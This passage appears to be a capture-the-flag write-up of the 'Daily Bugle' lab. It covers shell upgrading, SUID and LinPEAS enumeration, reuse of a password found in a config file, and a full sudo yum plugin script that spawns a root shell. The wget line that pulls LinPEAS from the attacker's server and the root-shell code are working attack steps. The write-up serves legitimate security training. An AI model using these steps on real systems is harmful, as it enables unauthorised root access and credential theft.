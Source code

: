Let's start by upgrading our shell with `python -c 'import pty; pty.spawn("/bin/bash")'
`. Looking around the file system, we find a directory belonging to `jjameson`, which we don't seem to have access to. Let's try escalating our privilege. Using `find / -perm -u=s -type f 2>/dev/null` to look for files with the SUID bit set, we find some candidates.

<center>

![83e467cfd5af8ddef71a1a5ca54f5986.png](/Daily%20Bugle/_resources/83e467cfd5af8ddef71a1a5ca54f5986.png)

</center>

At this point, we check [GTFObins](https://gtfobins.github.io/) to see if we can leverage any of the binaries we found in our search. It doesn't look like this is the right approach. Let's instead use [LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20220717) to search for possible privilege escalation methods on the target machine. Download the linpeas.sh file onto the attacking machine, spin up a webserver with `python3 -m http.server`, and download it onto the target machine using `wget <attacking IP>:8000/linpeas.sh`.

<center>

![def636cb01192ace178966359de736d8.png](/Daily%20Bugle/_resources/def636cb01192ace178966359de736d8.png)

</center>

Here I saved the file to the `/tmp` directory so that I don't have to worry about write permissions.

<center>

![c394d08ab7b3fd4ae59b407365d2a84b.png](/Daily%20Bugle/_resources/c394d08ab7b3fd4ae59b407365d2a84b.png)

</center>

Now use `chmod +x linpeas.sh` to mark the file as executable, then run it with `./linpeas.sh`. LinPEAS identifies the target as being vulnerable to [CVE-2021-4034](https://nvd.nist.gov/vuln/detail/CVE-2021-4034).

<center>

![b8eef301cc53017c0216622cf5cc7e2f.png](/Daily%20Bugle/_resources/b8eef301cc53017c0216622cf5cc7e2f.png)

</center>

We also find a password in a public PHP config file.

<center>

![1a34e49fbe938a3d2f25ec3018589374.png](/Daily%20Bugle/_resources/1a34e49fbe938a3d2f25ec3018589374.png)

</center>

Earlier we found a user named jjameson, so we can try using the password we just found so switch into his account.

<center>

![82bbb48b299ce44bf1c3993fad8b731e.png](/Daily%20Bugle/_resources/82bbb48b299ce44bf1c3993fad8b731e.png)

</center>

Success! Navigating to jjameson's home directory gives us the `user.txt` flag.

Now we look for a way to escalate our privilege to obtain the root flag. Using `sudo -l` tells us that jjameson can run the yum binary with sudo privileges.

<center>

![23809e8f1de19246829b7a180af6c061.png](/Daily%20Bugle/_resources/23809e8f1de19246829b7a180af6c061.png)

</center>

Going back to [GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo), we see that yum does not drop elevated privileges when run as sudo. We can spawn a root shell with the following commands:

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

(It may be easier to just copy and paste line-by-line directly from GTFOBins.)

As promised, we get a shell with root access which we then use to quickly find the `root.txt` flag.
 
<center>

![ad5d66d1a634cc31982f20b70c324841.png](/Daily%20Bugle/_resources/ad5d66d1a634cc31982f20b70c324841.png)

![0b2f3894eda28b03b1003c5bad1b1f2c.png](/Daily%20Bugle/_resources/0b2f3894eda28b03b1003c5bad1b1f2c.png)

</center>